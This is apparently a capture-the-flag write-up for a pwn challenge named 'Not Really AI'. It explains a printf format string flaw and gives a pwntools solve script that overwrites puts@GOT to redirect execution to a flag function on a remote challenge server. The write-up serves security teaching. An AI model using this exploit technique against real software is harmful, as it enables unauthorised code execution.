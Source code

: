 # Not Really AI

A pwn challenge. Just a simple format string exploit.

Protections: Partial RELRO, no PIE, therefore we can overwrite the GOT as it is not read-only.

When our input is asked for, it is printed out using printf without proper format strings.

Our input is put on the stack, so the program is vulnerable to arbtirary writes via `%n`.

There's no buffer overflow, and only one input, so we shouldn't be leaking anything.

We can send a simple format string overwrite payload to rewrite puts@GOT with the address of the function flaggy, and the flag will be yours. This works as puts@plt is called just after printf is called on our input, so we can overwrite the GOT entry with a different value.

Thus when the plt is called it will find a different GOT value and jump to that.

Here is the solve script:

```python
from pwn import *
e = ELF("./nra")
def getproc():
    return remote('95.216.233.106',43941)
    #return e.process()
def write_fmt(string):
    p = getproc()
    p.sendline(string)
    p.recvline()
    out = p.recv()
    p.close()
    return out
auto = FmtStr(execute_fmt=write_fmt)
writes = {e.got['puts']: e.sym['flaggy']}
payload = fmtstr.fmtstr_payload(auto.offset, writes)
p = getproc()
p.sendline(payload)
p.interactive()
```


